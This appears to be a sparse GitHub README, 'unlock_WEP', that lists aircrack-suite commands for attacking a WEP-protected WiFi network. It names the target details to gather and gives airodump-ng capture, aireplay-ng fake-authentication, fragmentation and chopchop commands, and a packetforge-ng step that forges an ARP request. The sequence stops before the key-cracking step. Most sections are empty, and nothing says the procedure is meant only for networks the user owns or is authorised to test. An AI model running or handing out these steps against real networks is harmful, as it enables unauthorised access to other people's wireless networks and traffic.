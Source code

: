 # unlock_WEP
Steps to unlock WEP key using aircrack

## Category

WiFi Security

## Description

## Demo in Animation

## Overview

## Requirements

Make sure to know following information.

TARGET-ESSID(WiFi_NAME) 

TARGET-CHANNEL 

TARGET-BSSID(MAC)

YOUR-BSSID(MAC)


## Install

## Usage

`airodump-ng --channel 7 --bssid TARGET-BSSID(MAC) -w /var/tmp/wifidata wlan0`

`aireplay-ng -1 0 -e TARGET-ESSID(WiFi_NAME) -a TARGET-BSSID(MAC) -h YOUR-BSSID(MAC) wlan0`

`aireplay-ng -1 6000 -o 1 -q 10 -e TARGET-ESSID(WiFi_NAME) -a TARGET-BSSID(MAC) -h YOUR-BSSID(MAC) wlan0`

`aireplay-ng -5 -b TARGET-BSSID(MAC) -h YOUR-BSSID(MAC) wlan0`

`aireplay-ng -4 -h YOUR-BSSID(MAC) -b TARGET-BSSID(MAC) wlan0`

 `packetforge-ng -0 -a TARGET-BSSID(MAC) -h YOUR-BSSID(MAC) -k 255.255.255.255 -l 255.255.255.255 -y fragment-0203-180343.xor -w arp-request`
 

## Contribution

## Updates

## Licence
[MIT]

## Author

[linuxkay](https://github.com/linuxkay)
